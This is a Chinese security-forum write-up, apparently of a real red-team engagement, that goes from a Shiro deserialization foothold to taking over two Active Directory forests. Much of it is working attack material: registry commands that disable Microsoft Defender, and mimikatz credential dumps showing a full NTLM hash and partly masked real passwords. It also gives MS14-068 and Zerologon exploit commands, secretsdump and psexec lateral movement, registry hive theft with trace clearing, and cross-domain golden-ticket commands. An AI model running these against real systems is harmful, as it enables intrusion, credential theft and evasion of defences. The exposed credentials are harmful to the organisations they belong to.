# 红队视角下的域森林突破：一场由Shiro反序列化引发的跨域控攻防对抗-先知社区

> **来源**: https://xz.aliyun.com/news/17951  
> **文章ID**: 17951

---

### 一、Web打点

开局给你一个登录框，告诉我你得渗透思路？这句经典的面试提问有多少好兄弟被难住呢？现在手把手教大家开局一个登录框到底该如何渗透。

首先前期的信息收集可不能少，毕竟渗透的本质就是信息收集，那么废话也不多说，从robots到Wappalyzer,在从findsometing再到dirsearch。只知道它是个java站也没有再多有用的细节了。

秉持的负责任的态度，还是简单渗透一下把，紧接着我们的渗透也是从尝试万能密码到弱口令，又从请求包注入到信息泄露，也是成功的没有任何滴发现。那么你以为这就完了吗？错！！！ 虽然弱口令没有，但是我们发现了登录的时候有个记住密码小框框，那么这时候我们可得好好找找有没有shiro了。小√一打，就是登录，果不其然发现了rememberMe=deleteMe。



哈哈哈，到这里总算是有点收获了，立马拿出工具就是跑Key和利用率，这里也是很自然的就拿到了权限。



### 二、内网渗透

拿下权限，我们也没有停下探索的脚本。然后我们就在当前机器上做信息收集，查看使用命令查看当前机器的杀软发现是微软自带的Denfender。



```
那这就很简单了，有system权限，我们直接关闭它不就好了吗？

reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG_DWORD /d "4" /f
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```

那也是简简单单的四条命令直接干掉杀软了。然后呢，就该看看内网中有没有域了，没有域的话那基本也没有渗透的必要了，然后我们就使用命令一看。



看到肯定会有一大波兄弟，以外没有域就撤了，但是咱们不一样，咱们一看这个DNS有点不对劲啊。然后想着ping一下这个dns服务器看看他的主机名。这一ping可让我ping出来域环境了。



有域？那就立马打上鸡血了，赶紧起来渗透。然后想着反弹shell，试了各种命令都没有弹上。这就很奇怪了。但是转念一想，不会不出网把？然后赶紧命令执行一下看看，结果还真是ICMP 和 HTTP 都不出网，这些完犊子了，怎么搞马子？

然后尝试打内存马也失败，好不容易上传了shell，也是失败??



显示500，我说呢，难怪内存马打不上，原来是Tomcat版本问题啊，那这就好办了。然后也是命令执行找到的根路径 ，通过echo一个小马进去，最后也是成功拿到了权限。



然后就是上传suo5，搞个代理。然后在进行一些简单的信息收集了，

```
for /l %i in (1,1,255) do @ping -a 10.0.1.%i -w 1 -n 1 | find /i "Pinging"


也是用这个命令发现了域内的机器名，和操作系统

dir c:\pass /s /b   然后也查看的本机的所有有关pass文件发现没有什么有用信息
```



不过ping还是有很多用处的，看见有vcenter等等的机器，然后现在该想想怎么横向移动了。

使用mimikatz读取了一下本地的账户密码发现也没有什么大的进展，都是一些本地的账户。

```
C:/****> mimikatz.exe
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

   * Username : administrator
     * ntlm：01d2c663d9cb02ff2c0f38ff63ad01fb

   * Username : owner
     * netlm：7460ee508198bf6a394c64f546722694
```

收集完没有太大进展，想着还是扫一下内网的端口的服务把，等多收集点账户在做喷洒，然后扫内网扫出来，很多mysql数据库，其中一个有弱口令但是对方机器是linux，也不刷分，对我们渗透没多用也就没利用.查看了内网大部分的web服务都没有突破口。就当我准备放弃的时候，突然给了我个惊喜，内网中存在一个

这个web，然后搜了半天之后发现有一个CVE命令执行漏洞。然后成功执行了命令之后发现是个linux系统。然后转头就发现了内网中还存在一个跟入口点一摸一样的系统，这时候可太高兴了。

也是跟入口点一样的打法，通过代理成功拿到权限，利用system权限通过mimikatz也是读取到了几个本地账户。

```
C:/****> mimikatz.exe
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

     * Username : owner 
     * Domain   : WIN7-SANDBOX2
     * Password : bon@****

     * Username : Bens***
     * Domain   : WIN7-SANDBOX2
     * Password : inba***
```

好在这次系统是win7能读取到明文密码，也是收获满满。

不过渗透这么久了，还是没有横移到域内也是很伤心的。然后索性把收集到的ntlm和密码密码进行一下喷洒，看看有什么收获把？



终于，功夫不负有心人，通过administrator的ntlm也是喷洒出来几个机器了。（这里没截图）。然后我们也是立马横移上去进行信息收集。

rdp上去之后，我发现有个vCenter集群，这里看到有点大喜，心想说不定这个里面保存了所有的账户密码。然后点击软件，发现空荡荡的。。。



到这里也是筋疲力尽了，甚至都有点想润了。点开Anydesk只有两台机器，都没保存密码，也是吐了。



哎，运气有点背啊，那我还是老老实实收集密码进行喷洒把。然后我就把剩下几个机器rdp上去进行信息收集手法也是同上面一样，最后也是读取内存，找到了很多用户和密码。

```
C:/****> mimikatz.exe
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonpasswords

    * Username : engi****
     * Domain   : HYENA-CLIENT
     * Password : eng@***
   
   * Username : indobara\deddy.****
     * Domain   : 10.1.51.16
     * Password : ddt@****


   * Username : Administrator
     * Domain   : HYENA-CLIENT
     * Password : V55@bh****

   * Username : indobara\crea****
     * Domain   : 10.1.51.16
     * Password : Eng@****
```

收集到的密码，大致就是如上，有些没有放出来，从4-5台机器上一共收集到了10个密码，5-6个账户。还有两个域内账户，索性直接尝试喷洒。

然后不得不说运气是真的背，两个域内账户，一个被禁用了，一个权限不够。至此还是没有横移到域内，想着看看本地账户能不能拿下域内机器的本地用户在提权之类的操作，发现也喷洒成功。这里是真的被气到了。

### 三、打穿域控

其实喷洒不出来，就休息了一会冷静冷静。然后就该换个思路了。然后重新梳理了一下收集到的信息，发现个有意思的事情。dc01 -> windows server2003

dc2016 - > windows server2016 看到这俩就在想其他思路不行，试试看看有没有什么可以利用的漏洞把？然后就想版本那么老会不会存在MS14-068漏洞呢？然后马上拿着域账户去尝试。

python goldenPac.py -dc-ip 域控IP 域名/域账户:密码@域控全称



没想到还是打了补丁的，那就只能寄希望于另外一个域了。那也是废话不多说看见2016版本，我第一感觉那必须是我们的CVE-2020-1472了，直接来上一梭子。



就这么不灵不灵的 "Exploit complete" !!!! 直接狂喜，不是爱打补丁吗？怎么这个不打呀？然后直接使用secretsdump导出域内的hash

python secretsdump.py -no-pass 域控主机名$@域控IP

原谅这里忘记截图了，浅浅放一张复制到记事本的图片！

拿到哈希之后我们也没有闲着，直接横移上域控。

```
python psexec.py -hashes  :哈希值   哈希值对应的用户@域控IP

或者跑出来密码也可以 
python psexec.py   域名/用户：密码@域控IP
```



这里因为我们是实战，所以连接上域控直接把将sam system security.save文件先导出后下载下来,并清理痕迹。

```
reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save
get system.save ++
```

保存到本地之后我们需要使用secretsdump获取各用户的hash并且还原域防止出现问题

python secretsdump-sam sam.save -system system.save -security security.save LOCAL



这里标注部分的hash要用来还原域

proxychain spython3 reinstall\_original\_pw.py DC2016 10.\*\*\*.6 d0c97\*\*\*\*\*\*\*fbe889348



还原成功之后我们尝试把用户hash跑明文密码，没跑成功之后，索性直接创建一个域管然后rdp上去，也是简单拿下域内700+机器。



### 四、跨域攻击

当然拿下一个域控对我们来说并不意味着结束，我们还得接着拿下另外一个域，打到这里，能想到的思路也都想了，web服务没有可利用洞，也没个day，根本横移不过去。

然后只能尝试看看两个域之间有没有信任关系。

nltest /domain\_trusts /all\_trusts /v #查看域内所有信任关系



这么一看发现了两个域内还是存在域信任的。然后梳理一下思路，对于有域信任的渗透思路无非就是利用Krbtgt 密钥创建跨域金票、域信任密钥创建跨域金票、无约束委派跨域利用以及绕过SID 过滤这几种利用方式。那然后我们这里尝试利用一下

```
首先就是使用命令来查看信任密钥等信息

mimikatz.exe privilege::debug "lsadump::lsa /patch /user:父域名$" "lsadump::trust /patch" exit
```



上图中所有标注的信息，在制作黄金票据时都需要用到，然后我们紧接着使用mimikatz制作黄金票据。

```
mimikatz.exe “Kerberos::golden /domain:当前域名 /sid:当前SID /sids:目标SID-519  /rc4:信任秘钥  /user:任意用户名 /service:krbtgt /target:目标域 /ticket:admin.kirbi" exit

这里目标域SID加519的意思是，由于目标域是根域，而在域森林中根域中有Enterprise Admini组，而519就代表这个组，

mimikatz.exe "Kerberos::golden /domain:wo*** /sid:S-1-5-21**** /sids:S-1-5-21-***-519  /rc4:40f00******23bf  /user:Administrator /service:krbtgt /target:indo***** /ticket:admin.kirbi" exit
```

然后我们利用刚才创建的admin.kirbi的信任票据获取到域中目标服务的TGS并保存到文件中。

asktgs.exe admin.kirbi CFIS/dc01.\*\*\*\*\*\*\*



kirbikator.exe lsa CIFS.dc01.\*\*\*\*\*\*\*.kirbi



这里很奇怪制作票据的时候看着都没问题，但是最后利用的时候就显示权限不够。



然后转头尝试使用krbtgt密钥创建跨域金票，然后基本原理也差不多。

```
mimikatz.exe "kerberos::golden /user:任意用户 /sids:目标域-519 /sid:当前域 /domian:当前域 /krbtgt:当前域 /ptt" "exit"

mimikatz.exe "kerberos::golden /user:Administrator /sids:S-1-5-21-***-519 /sid:S-1-5-21-*** /domian:wo*** /krbtgt:当前域 /ptt" "exit"
```



到这里可能是我自己操作失误了导致没有利用成功，这令我心态很炸裂。以至于尝试了好几次都没有效果，后续的几个利用方式也没有尝试，而是又有了更简单的横移。（不过当我文章写到这里的时候，我发现其实当时我在努力一下是可以通过无约束委派来完成攻击的，毕竟域控默认是有委派属性的。）

然而尝试跨域没什么思路之后，我又开始重新整理了思路，想了想之前的域内的域管账户 有一个install账户，很明显就是一个用来升级/维护的一个账户。然后我就在想我在rdp的时候发现另一个域内机器比较佬，所以登录的时候有三个选项一个是本地，一个是A域一个是B域，那么可以肯定的是这台机器一定能通过A域的账户来登录。

然后我索性就拿上install的hash去横移另一个域，但是域控没有横移上，不过横移到了另一个域的域内机器上。这下可算是横移上去了



这下总算是让我有些收获了，也是成功的横移到另外一个域控上，然后我又通过这样的方法，连续横移了好几台机器并且提取了机器上的hash，让我成功拿到了administrator的用户密码。





拿到密码之后，也是没有闲着，立马横移上域控。

然后查看一下域信任关系，证明两个域是存在信任关系，只不过是我不知道哪里出错了。



最后也是成功拿下两个域机器的话少说2k了。跨域部分有懂得师傅帮忙纠正一下。
